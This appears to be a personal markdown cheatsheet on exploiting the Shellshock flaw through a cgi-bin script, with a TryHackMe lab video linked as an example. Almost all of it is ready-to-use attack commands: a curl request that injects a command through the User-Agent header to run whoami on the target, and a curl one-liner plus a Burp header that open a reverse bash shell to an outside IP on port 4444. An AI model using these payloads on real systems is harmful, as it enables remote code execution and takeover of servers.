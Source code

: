 ```yaml
---
title: Cheatsheet - Shellshock 
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/shell-shock]
img_path: /Cheatsheet/Web/Shellshock via cgi-bin/images
---
```


# Test
```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://<MACHINE-IP>/cgi-bin/test.cgi
```

# Exploit
- Obtain shell
	```
	curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.4.53.197/4444 0>&1' http://10.10.234.83/cgi-bin/test.cgi

	#Burp:
	User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.4.53.197/4444 0>&1
	```

# Some Example
- [TryHackMe 0day](https://youtu.be/TS_yfDqr_3s?t=1052)



